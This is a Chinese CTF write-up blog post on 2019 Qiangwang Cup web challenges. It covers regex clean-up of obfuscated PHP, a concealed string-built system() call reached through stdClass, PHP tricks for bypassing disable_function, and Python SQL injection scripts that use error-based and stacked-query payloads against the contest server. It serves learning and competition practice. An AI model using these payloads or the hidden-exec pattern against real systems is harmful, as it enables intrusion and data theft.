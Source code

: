```yaml
---
layout: post
title: 2019 强网杯赛题总结
date: 2019-06-14 12:34
tags:
- CTF
- web
categories: CTF
description: 强网杯
---
```

虽然自己经常参加 CTF，但是现在的我不再是为了 CTF 而打这些比赛。CTF 比赛更应该是选手和选手、出题人和选手思想上的一次交流和汇聚。希望无论是出题人还是做题人，大家能把高质量的出题和高质量的做题作为标准要求自己。

这次强网杯题目虽然不难，但是我想在这篇文章分享自己的一些收获：

- 快速编写正则表达式
- PHP 拼接恶意函数
- 重新整理 SQL 注入笔记

### 快速编写正则表达式

对应这次比赛的高明的黑客题目，是一个 [www.tar.gz](https://saferman.github.io/assets/downloads/2019QWB/www.tar.gz) PHP 源码审计题目

文件内容非常的混乱，不仅是命令混乱，代码还充斥着许多无用的内容，而且文件数量居多。代码片段如下：

```php
$Y5j9bNzjt = '$LZ8S = \'Cim\';
$J5v5nitFL2 = \'W29bgm\';
$mNF = \'Mktt0IEVs\';
$S40MzJXkA = \'Vma\';
$ueYq4Npy = \'iPO\';
$sLVL = \'LHXqKH\';
$LZ8S .= \'yBzc9 mjvRu\';
preg_match(\'/lxyVk3/i\', $mNF, $match);
print_r($match);
$S40MzJXkA = $_POST[\'FdH84ubu0n7\'] ?? \' \';
$ueYq4Npy = $_GET[\'m9 teSY4xtRUZM\'] ?? \' \';
var_dump($sLVL);
';
eval($Y5j9bNzjt);
```

最恶心的是，静态代码审计工具会扫出 eval 这类执行漏洞 4000 多个，全是上述这种根本无法利用的漏洞。因此第一个工作就是需要过滤掉所有**绝对**无法被利用的依次漏洞代码。比如下面这几种：

```php
$_GET['EtmXcibpZ'] = ' ';
echo `{$_GET['EtmXcibpZ']}`;
# 或者这种
$a = $_GET['a'] ?? ' '; 
echo $a;
```

```php
// 注释里面的恶意代码 ...... 无语
```

```php
if('l8DxhESdm' == 'sKmGHy6Y2')
 eval($_GET['l8DxhESdm'] ?? ' ');
```

等等。这些无用的疑似恶意代码基本都是一个模板，用正则过滤即可。贴出代码的一部分仅供参考：

```python
re.sub(r"(if\('([0-9a-zA-z_]*)'\ ==\ '([0-9a-zA-z_]*)'\)[^;]*;)","",text)
re.sub(r"/\*[^*]*\*/","",b)
d = re.findall(r"\$(.*) = \$_GET\['([0-9a-zA-Z_]*)'\]\ \?\? ' ';",c)
        for i in d:
            e = re.findall("\$"+i[0]+" = .*",c)
            if len(e)==2 and "GET" not in e[0] and "GET" in e[1]:
                c = re.sub("\$"+i[0]+" = .*","",c)
            else:
                e = re.findall(".*\$"+i[0]+".*",c)
                print e
 f = re.findall(r"\$_GET\['([0-9a-zA-Z_]*)'\] = ' ';",c)
        for i in f:
            g = re.findall(".*"+i+".*",c)
            if len(g)==2 and "' '" in g[0]:
                c = re.sub(".*"+i+".*","",c)
```

还就没写正则表达式了，写的过程中不断地调试挺耽误时间的。这道题目的最终漏洞点在后面再详讲。

所以自己比赛结束后特地总结了正则表达式相关的知识，不断练习以达到现在可以**不参考不调试**编写正则表达式，做个总结如下：

1. 理解正则解析流程

   re 模块会将正则表达式 pattern 字符串传递给正则表达式引擎进行解析，因此字符串里的 ^、*、\ 这些字符是什么含义是在正则引擎解析的，在编写 py 代码的时候，字符串本身是按照 py 解析引擎处理的，因此你在字符串前面加 r 和不加 r 区别是很大的。

   在编写复杂的正则表达式要正确处理好 \ 转义符号，在 py 解析引擎中有转义的功能，在正则引擎里 \ 仍然有转义的功能。

2. 正则表达式引擎原理

   这部分细讲可以写很多内容，这里提几个关键字：

   ```
   NFA/DFA 回溯 
   DFA 自动机的时间复杂度是线性的，更加稳定，但是功能有限
   NFA 的时间复杂度比较不稳定，有时候很好，有时候不怎么好，好不好取决于你写的正则表达式
   ```

   >  Java 、.NET、Perl、Python、Ruby、PHP 等语言都使用了 NFA 去实现其正则表达式

   正则表达式的三种模式：贪婪模式、懒惰模式、独占模式。

3. 高质量的正则表达式分析网站

   这里推荐 郁离歌大佬博客提到的 [https://regex101.com/](https://regex101.com/)
   [https://www.debuggex.com/ ](https://www.debuggex.com/ ) 可视化正则表达式编辑网站

### PHP 拼接恶意代码

上面的代码审计经过正则过滤，最终剩下的有 GET 或者 POST 输入的，手工过滤发现漏洞代码：

```php
$XnEGfa = $_GET['Efa5 BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX[0];
($kDxfM->gHht)($XnEGfa);
```

这是手工拼接的恶意代码，Seay 静态审计这类扫不出来的。它的重点是 stdClass 这个类：

> stdClass 类是 PHP 的一个内部保留类，初始时没有成员变量也没成员方法，所有的魔术方法都被设置为 NULL

> It is useful for anonymous objects, dynamic properties, etc.

这道题目让我想起 2019 RCTF 题目——disable_function 禁用了一堆函数，然后绕过的方式是使用 FFI::cdef 调用 C 语言的函数绕过 disable_function 执行恶意代码。

类似的，我这里列举出我总结过的一些 CTF 出现少甚至未出现过的漏洞 PHP 特性：

- openssl_verify：错误返回 -1 被 if 当成 true
- filter_var：过滤结果不完全可信
- htmlentities：默认 ENT_COMPAT 不转义单引号
- error_log：底层也会调用 mail、mb_send_mail 相关函数，利用 LD 绕过 disable_function

有时间专门再写一篇讨论这戏问题。

### SQL 注入题目解答

再次梳理了 SQL 注入的笔记，但是这部分我只简单给出随便注题目解答过程：

题目数据库是 MariaDB

> MariaDB 打算保持与 MySQL 的高度兼容性，确保具有库二进制奇偶校验的直接替换功能，以及与 MySQL [API](https://zh.wikipedia.org/wiki/%E5%BA%94%E7%94%A8%E7%A8%8 B%E5%BA%8F%E6%8E%A5%E5%8F%A3) 和命令的精确匹配。

注入脚本：

```python
#- * -coding: utf - 8 - * -
import re
import os
import requests
url = "http://117.78.37.77:31192/"
payload = "1' and extractvalue(1,concat(0x7e,user(),0x7e))#"
params = {
    'inject':payload
}
proxies = {
    'http': 'http://localhost:8080'
}
r = requests.get(url,proxies=proxies,params=params)
print r.content.split("</html>")[1]
```

题目过滤条件：

```php
return preg_match("/select|update|delete|drop|insert|where|./i", $inject);
```

收集的信息：

```
supersqli@localhost 用户

10.0.27-MariaDB-0ubuntu0.16.04 版本

supersqli 数据库
```

堆叠注入和拼接字符串执行 SQL 语句：

```python
#- * -coding: utf - 8 - * -
import re
import os
import requests
# print hex(ord('s'))
url = "http://117.78.37.77:31192/"
# payload="-1';show tables; "
payload = "-1';set @saferman=concat('se','lect * from `1919810931114514`');PREPARE test from @saferman;EXECUTE test;" # 为什么一定要加#
# payload = '-1\';set @moxiaoxi=concat("se","lect `flag` from `1919810931114514` ");PREPARE test FROM @moxiaoxi;EXECUTE test;#'

params = {
    'inject':payload
}
proxies = {
    'http': 'http://localhost:8080'
}
r = requests.get(url,proxies=proxies,params=params)
print r.content.split("</html>")[1]
```

